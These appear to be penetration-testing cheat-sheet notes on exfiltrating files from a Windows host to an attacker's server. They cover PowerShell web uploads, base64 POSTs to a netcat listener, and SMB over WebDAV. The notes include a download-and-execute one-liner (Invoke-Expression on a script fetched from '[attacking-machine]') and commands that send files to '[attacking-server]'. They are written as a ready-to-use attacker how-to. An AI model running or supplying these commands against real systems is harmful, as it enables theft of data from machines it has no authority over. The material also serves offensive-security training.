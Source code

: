 #### PowerShell Web Uploads:

an upload server can be created using *uploadserver*, an extended module of the python http.server module

	 pip3 install uploadserver

	python3 -m uploadserver

files can then be uploaded to http://[server-address]/upload

PSUpload.ps1 is a script which allows PowerShell uploads based on the *Invoke-WebRequest* cmdlet, the cmdlet *Invoke-FileUpload* accepts the parameters *-File* and *-Uri*

##### install *Invoke-FileUpload*:
	 Invoke-Expression(New-Object System.Net.WebClient).DownloadString('http://[attacking-machine]/PSUpload.ps1')

##### upload file to server:
	 Invoke-FileUpload -File [file] -Uri http://[attacking-server]/upload

#### PowerShell Base64 Web Upload

it is also possible to upload a base64 encoded file by making a request to a listener in the attacking machine:

##### on windows host:
	$b64 = [System.convert]::ToBase64String((Get-Content -Path '[file]' -Encoding Byte))
	Invoke-WebRequest -Uri [server-ip] -Method POST -Body $b64

##### on attacking machine:
	nc -lvnp 8000

#### SMB Uploads

smb traffic to outside networks is usually blocked, an alternative to this is using SMB over HTTP with WebDAV (an extension of the HTTP protocol that allows it to behave like a file server)

if a connection is made using SMB and a share isn't available it will then try to connect using HTTP

#### configuring a WebDAV server:
	pip 3 install wsgidav cheroot
	wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

#### on windows host:
	dir \\[server-ip]\DavWWWRoot
	copy [file] \\[server-ip]\DavWWWRoot
	copy [file] \\[server-ip]\[shareName]

[DavWWWRoot is a special keyword recognized by the windows shell, no such folder exists, it will make you connect to the root of the WebDAV server]

if no smb restrictions are in place, upload can be achieved by the same methods listed in *SMB Downloads*
